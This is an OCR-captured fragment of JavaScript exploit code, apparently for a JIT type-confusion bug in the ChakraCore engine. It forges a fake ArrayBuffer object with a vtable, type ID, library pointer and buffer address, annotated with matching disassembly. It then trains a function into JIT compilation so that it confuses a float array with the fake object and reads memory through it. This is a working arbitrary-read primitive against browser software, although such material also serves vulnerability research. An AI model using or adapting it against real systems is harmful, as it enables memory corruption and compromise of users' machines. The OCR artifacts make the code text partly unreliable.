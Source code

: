 ```
    //000001801D7011B8  movsd       mmword ptr [rcx],xmm0  
    var base_low = i32[0];
    var base_high = i32[1];

    i32[0] = base_low +0x58;
    /*
    000001801D7011F1  mov         rdi,qword ptr [rdx+38h]  
    000001801D7011F5  mov         r8d,dword ptr [rdi]  
    000001801D7011F8  mov         r9d,dword ptr [rdi+4]  
    000001801D7011FC  mov         r10d,r8d  
    000001801D7011FF  add         r10d,58h  
    */
    arr[0] = f64[0];
    //00001801D701209  mov         dword ptr [rdi],r10d 

    //vtable
    fake_object[0]=1234; fake_object[1]=0x0;
    /*
    000001801D701260  mov         dword ptr [rcx+18h],edx  
    000001801D701263  xor         edx,edx  
    000001801D701265  mov         dword ptr [rcx+1Ch],edx  
    */

    //TypeObject
    fake_object[2]=base_low+0x68; fake_object[3]=base_high;
    //000001801D701280  mov         dword ptr [rcx+20h],edx  
    //000001801D701290  mov         dword ptr [rcx+24h],r9d 

    //fake TypeId
    fake_object[4]=56; fake_object[5]=0;
    //000001801D701294  mov         dword ptr [rcx+28h],38h
    //000001801D70129D  mov         dword ptr [rcx+2Ch],edx 

    //fake JavascriptLibrary
    fake_object[6]=base_low+0x58-0x430; fake_object[7]=base_high;
    //000001801D7012BB  mov         dword ptr [rcx+30h],edx 
    //000001801D7012CB  mov         dword ptr [rcx+34h],r9d  

    //buffer size
    fake_object[8]=0x200; fake_object[9]=0;
    //000001801D7012CF  mov         dword ptr [rcx+38h],200h
    //000001801D7012D8  mov         dword ptr [rcx+3Ch],edx

    //ArrayBuffer object is detached
    fake_object[10]=base_low+0x58-0x40; fake_object[11]=base_high;
    //000001801D7012ED  mov         dword ptr [rcx+40h],edx  
    //000001801D7012FD  mov         dword ptr [rcx+44h],r9d

    //Buffer address
    fake_object[14]=base_low+0x58; fake_object[15]=base_high;
    //000001801D70130E  mov         dword ptr [rcx+50h],r10d
    //000001801D70131F  mov         dword ptr [rcx+54h],r9d  

`}`

for (var i=0;i&lt;1000;i++)
`{`
    opt(()=&gt;2,arr);
`}`

opt(()=&gt;`{`arr[0]=fake_object;`}`,arr);

print(obj.getUint32.call(arr[0],0,true));
```